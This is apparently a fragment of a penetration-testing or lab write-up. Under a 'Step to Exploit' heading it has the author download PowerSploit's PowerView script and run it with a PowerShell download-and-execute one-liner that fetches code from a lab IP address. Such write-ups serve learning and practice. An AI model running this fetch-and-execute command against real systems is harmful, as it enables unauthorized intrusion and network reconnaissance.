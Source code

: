 ![](./IMG/47.png)

### Step to Exploit 

> With the guideline, I do the following step 

1. Download and Upload powerview.ps1
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master)

```
iex (New-Object Net.WebClient).downloadString('http://10.10.17.145/PowerView.ps1')
```

![](./IMG/39.png)
